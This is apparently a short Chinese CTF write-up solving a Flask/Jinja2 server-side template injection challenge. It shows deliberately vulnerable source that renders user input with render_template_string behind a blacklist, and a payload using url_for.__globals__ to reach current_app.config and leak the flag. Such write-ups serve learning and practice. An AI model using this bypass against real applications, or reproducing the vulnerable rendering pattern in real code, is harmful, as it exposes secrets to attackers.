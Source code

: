 ![[Pasted image 20221129143404.png]]

---
首页长这样
```python
import flask
import os

app = flask.Flask(__name__)
app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
	return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):
	def safe_jinja(s):
		s = s.replace('(', '').replace(')', '')
		blacklist = ['config', 'self']
		return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

	return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
	app.run(debug=True)
```
显然是个`flask`的`SSTI`

```php
/shrine/{{1+1}}
```
> 2

`flag`保存在app.config里，所以只要访问`/shrine/{{config}}`就可以了啊哈哈（
```python
blacklist = ['config', 'self']
return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
```
并不行，这俩被替换成`None`了

网上给出的解决方案是利用`flask`的`url_for`函数以及`python`的`__globals__`魔法，获取`url_for`所在环境中的全局变量
```python
/shrine/{{url_for.__globals__}}
```
![[Pasted image 20221129160253.png]]

```python
/shrine/{{url_for.__globals__['current_app'].config}}
```

![[Pasted image 20221129160733.png]]

#Web #python #flask #SSTI #urlfor #globals #绕过 